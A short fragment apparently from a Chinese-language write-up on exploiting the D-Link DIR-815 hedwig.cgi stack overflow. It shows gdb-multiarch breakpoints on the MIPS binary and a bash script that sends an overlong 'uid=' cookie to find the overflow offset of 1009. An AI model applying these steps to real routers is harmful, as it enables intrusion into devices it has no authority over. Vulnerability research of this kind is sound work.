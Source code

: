 

```sh
gdb-multiarch htdocs/cgibin
set architecture mips
target remote 192.168.100.2:6666
b hedwigcgi_main
b *0x409a50
b *0x00409A28
```

可以看到偏移为1009

![image-20221022232531539](DIR815/image-20221022232531539.png)

重新写下看看偏移是否是1009：

```sh
#!/bin/bash  
export CONTENT_TYPE="application/x-www-form-urlencoded"  
export HTTP_COOKIE=$(python -c "print 'uid=' + 'A'\*1009 + '0000'")   
export CONTENT_LENGTH=$(echo -n "$HTTP_COOKIE" | wc -c)  
export REQUEST_METHOD="POST"  
export REQUEST\_URI="/hedwig.cgi"  
echo "uid=1111"|./gdbserver.mipsle 192.168.111.131:6666 /htdocs/web/hedwig.cgi  
#echo "uid=1111"|/htdocs/web/hedwig.cgi
```
